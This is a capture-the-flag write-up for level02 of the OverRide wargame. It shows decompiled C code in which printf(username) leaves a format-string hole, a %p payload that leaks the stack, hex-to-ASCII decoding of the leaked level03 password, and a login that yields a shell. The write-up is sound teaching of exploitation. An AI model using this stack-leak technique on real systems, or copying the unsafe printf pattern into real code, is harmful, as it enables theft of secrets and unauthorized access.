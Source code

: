 # Level02
## Code
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

int main(int argc, const char **argv, const char **envp)
{
  char password[96]; 
  int clue1; 
  char ptr[48]; 
  int clue2; 
  char username[96]; 
  int clue3; 
  FILE *stream; 

  memset(username, 0, sizeof(username));
  clue2 = 0;
  memset(ptr, 0, 41);
  memset(password, 0, sizeof(password));
  clue1 = 0;
  stream = 0LL;
  clue3 = 0;
  stream = fopen("/home/users/level03/.pass", "r");
  if ( !stream )
  {
    fwrite("ERROR: failed to open password file\n", 1uLL, 0x24uLL, stderr);
    exit(1);
  }
  clue3 = fread(ptr, 1uLL, 0x29uLL, stream);
  ptr[strcspn(ptr, "\n")] = 0;
  if ( clue3 != 41 )
  {
    fwrite("ERROR: failed to read password file\n", 1uLL, 0x24uLL, stderr);
    fwrite("ERROR: failed to read password file\n", 1uLL, 0x24uLL, stderr);
    exit(1);
  }
  fclose(stream);
  puts("===== [ Secure Access System v1.0 ] =====");
  puts("/***************************************\\");
  puts("| You must login to access this system. |");
  puts("\\**************************************/");
  printf("--[ Username: ");
  fgets(username, 100, stdin);
  username[strcspn(username, "\n")] = 0;
  printf("--[ Password: ");
  fgets(password, 100, stdin);
  password[strcspn(password, "\n")] = 0;
  puts("*****************************************");
  if ( strncmp(ptr, password, 41) )
  {
    printf(username);
    puts(" does not have access!");
    exit(1);
  }
  printf("Greetings, %s!\n", username);
  system("/bin/sh");
  return 0;
}
```
## Explanation
- This program opens the `.pass` file and writes its content into ptr.

- Then it gets user input for username and password.

- Finally, it compares the password with the content of ptr, so clearly we understand that the password is the .`.pass`'s content itself.

- The thing is when you input a wrong password, the error message calls `printf()` to display the username directly, which is a huge security breach since it allows you to explore the stack by inserting %X or %p specifiers in your username : `printf()` will try to reach the arguments where they should be even if they don't exist.

- So if you try this :
```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: BBBBBBBB
*****************************************
AAAAAAAA 0x7fffffffe4e0 (nil) 0x42 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6d8 0x1f7ff9a08 0x4242424242424242 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x4141414141414141 does not have access!

```
- printf reads everything on the stack by making a new 8 bytes jump (and not 4 because this program is a 64bit ELF) at every `%p` specifier. So if we look at the result, we can quite clearly see all the variables declared in the stack at the beginning of the program, we can see:

    - our password represented by `0x4242424242424242`, followed by quite a lot of null bytes, which can be explained by the call to `memset()`, this is the rest of our password buffer.

    - the start of our username string represented by `0x4141414141414141`

    - Between these two, and judging by the order in which the variables were declared, we can guess that the content of the `ptr` buffer is right there in the mddle, surrounded by the two `(nil)` of the clue int variables set to 0 in the code.

- All that's left to do is convert these 5 packs of 8 bytes to ASCII and put them back in the right order to get the password :

    - raw output : `0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d`

    - conversion to ASCII : `unPR47hH EAJ5as9Q 7zqCWNgX 5J5hnGXs H3gPfK9M`

    - reversed final version : `Hh74RPnu Q9sa5JAE XgNWCqz7 sXGnh5J5 M9KfPg3H`

    - whitespaces removed : `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`
## Exploit

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: osef
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, osef!
$ whoami
level03

```

